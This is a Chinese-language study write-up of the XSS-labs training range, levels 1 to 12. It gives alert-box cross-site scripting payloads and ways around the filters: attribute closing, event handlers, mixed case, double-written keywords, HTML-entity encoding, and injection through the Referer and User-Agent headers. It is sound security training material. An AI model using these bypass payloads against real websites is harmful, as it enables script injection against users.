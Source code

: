 # XSS labs 学习

## level 1

对于XSS漏洞，我们首先需要的是找到在哪里插入。我们尝试在 url 栏的 name字段后输入1 发现页面出现了1 那么插入点就在这里。

第一关很简单使用简单的语句

```javascript
<script>alert("XSS")</script>
```

弹窗成功

![image-20221017191916729](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221017191916729.png)

## level 2

我们仍然首先输入上面的语句

```javascript
<script>alert("XSS")</script>
```

发现没有弹窗，我们通过查看源代码

![image-20221017192404148](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221017192404148.png)

发现需要闭合 ==“==和==>==

那么我们输入

```javascript
"><script>alert("XSS")</script>
```

弹窗成功

![image-20221017192539551](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221017192539551.png)

## level 3

在这一关，与前面的有区别。我们依然首先输入

```javascript
<script>alert("XSS")<script>
```



发现没有反应，我们查看源代码。发现==script==被转义了

![image-20221017194834465](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221017194834465.png)

那么我们就不可以使用==<script>alert("XSS")</script>==

我们通常还有两种方法

onmouseover
onclick

我们还需要将后面的内容注释掉 这里我们用的是 ==//==单行注释符

```javascript
'onclick=alert(1)//
'onmouseover=alert(1)//
```

## level 4

 绕过思路与上一题类似，将单引号改为 双引号就可以了。

## level 5

这一关当中将 on 字段和 <script>字段都进行了过滤 ，我们尝试使用大写绕过，还是没有办法。尝试使用的一个新的标签。

```html
```<a href=javascript:alert('xss') > xss</a>
```

查看源代码发现没有被过滤，但是前面还没由成功闭合，所以无法得到想要的结果。我们将前面的闭合掉就可以了

payload

```javascript
"><a href=javascript:alert('xss') > xss</a>
```

点击旁边的蓝色字体就可以过关

## level 6

我们还是将上一关的payload粘贴上去，看是否可以成功。发现被过滤掉了。尝试大小写绕过。成功。。。

我后面测试了一些，不论是href大写还是 <script>大小写都是可以的

payload 

```javascript
"><a HrEf=javascript:alert("xss")>xss</a>//
```

## level 7

 我们还是先将上面一关的语句粘贴过去，然后查看源代码，我们发现输入的script和href都被过滤为空了，由于这里是将恶意代码转化为空，我们联想到，如果只过滤一次的话，那么就可以通过双写绕过。尝试一下呢。。

```javascript
"><a hrhrefef=javascscriptript:alert("xss")>xss</a>//
```

成功弹窗

## level 8

现在又是将其加入下划线，导致标签里的内容失效。重复上面的思路。发现还是没有办法。这里尝试用`unicode`编码

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#120;&#115;&#115;&#39;&#41;
```

成功弹窗

## level 9

这次这个有点扯，直接说我的链接不合法。没办法查看源码吧。。

![image-20221208150511039](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221208150511039.png)



根据源代码写pay load

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#120;&#115;&#115;&#39;&#41;//http://www.baidu.com
```

成功弹窗。这一关感觉就是代码审计。

## level 10

这里还是先找到点，插入一段基础的 XSS语句

发现没有反应，查看源代码

增加了三个 input标签，也就是有了三个参数。

对三个参数进行这样的测试

```javascript
?keyword=<script>alert('xss')</script>&t_link=" type="text"&t_history=" type="text"&t_sort=" type="text"
```

从页面响应来看，有一个`<input>`标签的状态可以被改变。这个标签就是名

为`t_sort`的`<input>`标签，之前都是隐藏状态，但是通过构造参数响应发现只

有它里面的值被改变了。

因此可以从该标签进行突破，尝试能不能注入恶意代码进行弹窗。

构造如下代码：

```javascript
?keyword=<script>alert('xss')</script>&t_sort=" type="text" onclick="alert('xss')
```

然后点击输入框成功弹窗

## level 11

这一关和前面的出现了区别，前面的基本上都是在网页上进行的。不论是在 url 栏里面还是在 输入框中。这一关有些用hackbar 有些用的是burp 都可以。

首先我们输入XSS的简单语句，查看源代码，发现 t_sort还是可以接受参数。。但是里面的双引号被编码了，这样浏览器只能正常显示字符但是却无法起到闭合的作用了。

抓包发现没有 referer 字段。在hackbar上添加，在后面随便写点数据，再查看页面源代码，发现成功写入进去了。

构造payload

```html
type="text" onclick="alert('xss')
```



![image-20221208173909977](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221208173909977.png)

成功弹窗，这关虽然构造的代码不是很复杂，但是我最开始做了好久都没想到。这里面有一个很严重的误区。我们不应该把想法只想到网页当中，其实在数据包中也可以完成XSS语句插入。这一点和我们的sql注入很类似。

## level 12

有了上一关的基础，我们应该感觉的到这一关可能还是在数据包中插入（好多靶场都是这个套路，相同类型的题安排在一起），

![image-20221208174736231](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221208174736231.png)

这段一看就是 UA 的信息莽

直接上hack bar测试

直接在 UA 的内容后插入和上一关一模一样的代码

```javascript
"type="text" onclick="alert('xss')
```

![image-20221208174918508](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20221208174918508.png)






















